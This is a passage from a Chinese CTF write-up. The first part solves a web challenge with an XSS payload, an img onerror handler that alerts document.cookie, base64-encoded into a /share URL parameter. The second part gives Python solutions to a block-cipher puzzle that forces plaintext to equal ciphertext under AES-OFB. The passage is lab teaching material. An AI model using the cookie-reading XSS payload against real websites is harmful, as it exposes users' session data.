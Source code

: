 本来想试试这题能不能传出连接，结果不行，正想应该怎么传出结果，突然发现可以直接alert打出log。

payload:
```
btoa("0:lol<img src=a onerror='alert(document.cookie);'>")
/share?result=MDpsb2w8aW1nIHNyYz1hIG9uZXJyb3I9J2FsZXJ0KGRvY3VtZW50LmNvb2tpZSk7Jz4=
```

## 0x0B 不可加密的异世界

挺有意思的题。经典分组加密。

第一问要求明文和密文相等，可以控制分组加密方式，以及(部分)明文、key、IV。显然我们知道有的分组加密方式是直接将明文密文异或一下的。例如CFB和OFB模式，都是将Enc的输出直接异或明文得到密文的。因此我们只需要让Enc的输出为0即可保证明文等于明文。随便掏出一个key，将全0跑一下Dec就能得到需要的IV了。

```python
import os
from Crypto.Util.number import long_to_bytes, bytes_to_long
from Crypto.Util.Padding import pad, unpad
from magic_box import *

algo="AES"
mode="OFB"
blocksize=16

payx="Open the door!".encode()
payx=pad(payx,16)

print(payx)

xk=os.urandom(2*16)
tbx=Magic_box(algo,"ECB",xk[:16])
niv=tbx.auto_dec(b"\x00"*16)

xu=xk[:16]+niv

nbx=Magic_box(algo,mode,xu)
ntc=nbx.auto_enc(payx)
print(ntc)

print(xu.hex())
```

第二问要求将一个很长的随机信息全部加密，之后某个特定块位置的明文和密文相等，仍然可以控制key和IV。显然这思路和上一问一样。简单一点采用OFB模式，则要求特定位置Enc的输出为0，进而可以使用Dec算出特定块的Enc输入。而OFB中下一个块Enc的输入恰好是上一个块Enc的输出，因此可以简单地逐块递推，得到IV。

```python
import os
from Crypto.Util.number import long_to_bytes, bytes_to_long
from Crypto.Util.Padding import pad, unpad
from magic_box import *

algo="AES"
mode="OFB"
blocksize=16

payx=bytes.fromhex("114514")
payx=pad(payx,16)

for nt in range(10):
    xk=os.urandom(2*16)
    tbx=Magic_box(algo,"ECB",xk[:16])
    lasm=b"\x00"*16
    for j in range(nt+1):
        lasm=tbx.auto_dec(lasm)
    xu=xk[:16]+lasm
    nbx=Magic_box(algo,mode,xu)
```